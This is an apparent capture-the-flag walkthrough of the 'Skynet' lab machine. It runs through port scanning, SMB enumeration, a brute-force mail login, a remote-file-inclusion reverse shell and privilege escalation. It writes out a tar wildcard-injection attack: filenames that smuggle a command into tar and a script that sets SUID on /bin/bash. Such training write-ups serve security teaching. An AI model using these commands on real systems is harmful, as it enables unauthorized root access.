Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.81.179.104
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 10:41 IST
Nmap scan report for 10.81.179.104
Host is up (0.15s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 22,80,110,139,143,445 10.81.179.104
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 10:43 IST
Nmap scan report for 10.81.179.104
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE RESP-CODES TOP SASL PIPELINING CAPA UIDL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: IMAP4rev1 LITERAL+ LOGINDISABLEDA0001 ENABLE more have OK ID LOGIN-REFERRALS Pre-login listed SASL-IR post-login capabilities IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2026-02-05T23:13:24-06:00
| smb2-time: 
|   date: 2026-02-06T05:13:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.41 seconds
```

Due to security misconfigurations, the SMB server can sometimes allow anonymous access. An **anonymous access** allows a user to connect to a share without providing any password.




Download all the files available to access via anonymous.

Let’s now check the content of each of the downloaded files.



Taking a look at the ‘**attention.txt**’ file, we can notice a person called **Miles Dyson** is urging all the employees to change their ASAP due to a system malfunction that occurred.

Furthermore, by displaying the content of the log1.txt file located in the logs directory, we can notice a list of words that look like passwords.

Excellent! Let’s now now enumerate the HTTP server.


### Directory and File Enumeration




Great! We found some interesting directories.

Let’s check them out.




Though we don’t have access to /admin and /config, we do have access to the /squirrelmail login webpage.

[SquirrelMail](https://squirrelmail.org/about/) is a web-based email application written in PHP and used to access and manage emails through a web interface. It provides users with a convenient way to read, send, and organize their email messages using a web browser.

Here, as an attacker we can leverage two attack vectors namely :

- Check if the squirrelmail’s version is vulnerable.
- Perform a brute-force attack against the login page.

Let’s first check by checking the version of the squirrelmail is vulnerable :
Unlikely for us, we found nothing related to the version being used by our web-based email application.

With that said, let’s try the second attack vector which consisted of conducting a brute-force attack against the login page.

To do that, we need a valid username and a wordlist.

As a reminder, we found a name (miles dyson) when taking a look at the attention.txt file. This may be a valid username.

Regarding the wordlist, we can use the **log1.txt** file which seems to contain a list of passwords.

Let’s now intercept the login request with Burp Suite, then perform the brute-force attack using hydra :




Before going any further, let’s login to Mike’s email account :

Here, the subject of the first mail caught my eye. Let’s check its content :


Amazing! This is the password of Mike’s smb share.

Let’s try it. Shall we ?

Let’s check the content of the ‘**_important.txt_**’ file :


On the first line, we can see that Miles reminds himself that he needs to add features to beta CMS using a specific path **/4xxxxx**

Let’s access to this path in our browser :


In order to exploit the RFI vulnerability, we will first need to find a parameter where we can inject our malicious URL.

To do that, let’s perform a directory/file enumeration using the hidden path we found earlier :




Let’s now try to search for exploits related to this CMS :


![[skynet21.png]]

In order to exploit this vulnerability, we are going to generate a php reverse shell.

For that, we are going to exploit the remote file inclusion vulnerability.

In order to successfully exploit the RFI vulnerability, we are going to proceed as follows :

1. Configure the php reverse shell by changing its IP address and listening port.
2. Setup an external server on which the payload will be hosted.
3. Setup a netcat listener.
4. Exploit the RFI to obtain a reverse shell

You can find the php reverse shell in the **/usr/share/webshells/php** directory on your kali machine.



**Note 📝 :** Make sure to change the IP address and the listening port in the php reverse shell file.

Once done, let’s launch our python web server.

Then, let’s run our netcat listener

Finally, let’s exploit the RFI :


we got the reverse shell !
After getting a reverse shell, it’s always a good practice to stabilize it
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```




### Privilege Escalation

To get the root flag, we need to escalate our privileges.

Knowing that our target is running a GNU/Linux distribution (Ubuntu), we are going to download a privilege escalation script called [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) :



Once done, let’s download this script on the target machine using wget :


Once downloaded on the target machine, let’s give the script execution permissions, then run it :



Let’s download the files and move it to the target machine!!
https://codeload.github.com/berdav/CVE-2021-4034/zip/main 



download it on the target machine using wget
#### Method 2

Unfortunately, we don’t have permission to either modify or delete the **backup.sh** file.

Let’s now check the content of the backup.sh file :

The backup.sh script firstly changes the directory to /var/www/html, then uses tar to compress the content of that directory into an archive called **backup.tgz** that it stores in /home/milesdyson/backups/ directory.

After performing some research, I came across this [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) that explains how to take advantage of the wildcard in the tar command using a technique called **wildcard injection**.

In order to successfully exploit this vulnerability, we’re going to proceed as follows :

1. Create a script to set the SUID bit to /bin/bash.
```sh
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
```
2. Create these two files `--checkpoint-action=exec=sh root_shell.sh` and `--checkpoint=1` . Here’s how to do that :
```sh
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
touch "/var/www/html/--checkpoint=1"
```
`--checkpoint-action=ACTION` and `--checkpoint[=Number]` are two options available with the tar command.

- `--checkpoint[=Number]` : displays progress messages every Numberth record (default 10)
- `--checkpoint-action=ACTION` : executes ACTION on each checkpoint. In our case `exec`.
- `exec=command` : executes the specified command. In our case ‘**_sh root_shell.sh’_**

Therefore, when the cronjob will execute the next minute, it will take the two files we created above as **options** rather than normal filenames and set /bin/bash with setuid permission.

Here are the permissions related to /bin/bash binary before performing the **wildcard injection attack** :



As you can see, it has no SUID bit set.

Let’s execute the instructions listed above :
